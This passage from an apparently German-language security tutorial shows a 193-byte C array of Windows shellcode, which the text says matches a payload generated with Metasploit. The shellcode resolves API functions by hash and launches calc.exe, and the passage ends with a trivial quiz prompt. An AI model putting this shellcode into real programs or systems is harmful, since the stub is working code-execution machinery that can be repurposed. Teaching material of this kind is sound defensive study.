  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

Wenn wir die Ausgabe mit dem zuvor mit Metasploit erstellten Shellcode vergleichen, stimmt sie überein.

## Fragen:
Stelle sicher den obigen Text gelesen zu haben.
```
Keine Antwort nötig
```
